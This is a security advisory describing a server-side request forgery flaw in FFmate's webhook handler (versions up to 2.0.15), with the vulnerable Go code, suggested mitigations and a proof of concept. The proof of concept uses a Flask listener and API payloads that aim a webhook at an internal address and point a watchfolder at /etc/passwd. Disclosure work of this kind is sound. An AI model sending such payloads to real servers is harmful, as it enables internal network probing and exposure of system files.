






# Server-Side Request Forgery Vulnerability in FFmate

> **Software and Affected Version:** [FFmate](https://github.com/welovemedia/ffmate) ≤ v2.0.15

## Affected Files

-   `/internal/service/webhook/webhook.go`

## Description

A Server-Side Request Forgery (SSRF) vulnerability exists in [FFmate](https://github.com/welovemedia/ffmate) ≤ v2.0.15 at the webhook functionality, where user-controlled URLs are directly used to initiate HTTP requests without validation or restriction on the target destination. As a result, attackers can configure webhook URLs pointing to internal resources, which are then accessed by the server when webhook events are triggered. This enables attackers to probe internal network services, access metadata endpoints, bypass firewall restrictions, perform port scanning of internal infrastructure, and potentially exfiltrate sensitive data from services that should not be externally accessible. Mitigations include implementing strict URL validation with allowlists of permitted domains and protocols, blocking requests to private IP ranges, using a dedicated egress proxy with filtering capabilities, implementing network segmentation to isolate the application server from sensitive internal services, and conducting thorough security reviews of all external request functionality.

## Code Analysis

In `/internal/service/webhook/webhook.go`:

```go
func (s *Service) fireWebhook(webhook *model.Webhook, data any, callback func(event dto.WebhookEvent, url string, req *http.Request, resp *http.Response)) {
	msg := map[string]any{
		"event": webhook.Event,
		"data":  data,
	}
	b, err := json.Marshal(&msg)
	if err != nil {
		debug.Log.Error("failed to fire webhook due to marshaling for event '%s' (uuid: %s): %v", webhook.Event, webhook.UUID, err)
		return
	}

	client := &http.Client{}
	req, err := http.NewRequest("POST", webhook.URL, bytes.NewBuffer(b))
	if err != nil {
		debug.Log.Error("failed to create http request", err)
		return
	}
	req.Header.Add("Content-Type", "application/json")
	req.Header.Add("User-Agent", s.config.GetString("app.name")+"/"+s.config.GetString("app.version"))

	retryDelays := []time.Duration{
		3 * time.Second,
		5 * time.Second,
		10 * time.Second,
	}

	var resp *http.Response
	for try := 0; try <= len(retryDelays); try++ {
		resp, err = client.Do(req)
		if err == nil {
			debug.Webhook.Debug("fired webhook for event '%s' (uuid: %s)", webhook.Event, webhook.UUID)
			break
		}
		defer resp.Body.Close() // nolint:errcheck

		if try < len(retryDelays) {
			time.Sleep(retryDelays[try])
			continue
		}

		debug.Log.Error("failed to fire webhook for event '%s' (uuid: %s) after %d tries", webhook.Event, webhook.UUID, try+1)
	}

	// Save a copy of body for the callback
	req.Body = io.NopCloser(bytes.NewBuffer(b))
	callback(webhook.Event, webhook.URL, req, resp)
}
```

The URL is used directly to send the HTTP request without any validation to prevent access to internal network resources.

## Proof of Concept

Start a simple flask server:

```py
from flask import Flask

app = Flask(__name__)

@app.route('/ping', methods=['GET', 'POST'])
def ping() -> None:
    return {'type': 'success', 'msg': 'ping'}

@app.route('/pong', methods=['GET', 'POST'])
def pong() -> None:
    return {'type': 'success', 'msg': 'pong'}

@app.route('/ssrf', methods=['GET', 'POST'])
def ssrf() -> None:
    return {'type': 'success', 'msg': 'ssrf'}

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=True)
```

Create a preset using `/api/v1/presets` with the following payload. Remember the returned uuid:

```json
{
    "name": "Convert to MP4",
    "description": "Converts input files to MP4",
    "command": "-y -i ${INPUT_FILE} ${OUTPUT_FILE}",
    "priority": 0,
    "outputFile": "${INPUT_FILE_DIR}/${INPUT_FILE_BASENAME}.mp4",
    "preProcessing": { "scriptPath": "", "sidecarPath": "", "importSidecar": false },
    "postProcessing": { "scriptPath": "", "sidecarPath": "" },
    "webhooks": [],
    "globalPresetName": "Convert to MP4"
}
```



Create a webhook using `/api/v1/webhooks` with the following payload:

```json
{ "event": "task.created", "url": "http://127.0.0.1:5000/ssrf" }
```



Create a watchfolder `/etc/passwd` using `/api/v1/watchfolders` with the following payload. Remember the returned uuid. Although the target is not a folder, the server does not deny and keeps creating tasks with `/etc/passwd` as input:

```json
{
    "name": "Test",
    "description": "Test",
    "interval": 5,
    "growthChecks": 3,
    "preset": "47ae72b7-0fb4-490a-ba2f-9b4be5718869",
    "path": "/etc/passwd",
    "suspended": false,
    "filter": { "extensions": { "include": [], "exclude": [] } }
}
```



Remove the watchfolder created above to stop creating tasks using `/api/v1/watchfolders/<uuid>` with method delete:



Request `/api/v1/webhooks/executions` to confirm that the webhook is executed:



See logs of the simple flask server to confirm that the webhook is executed:


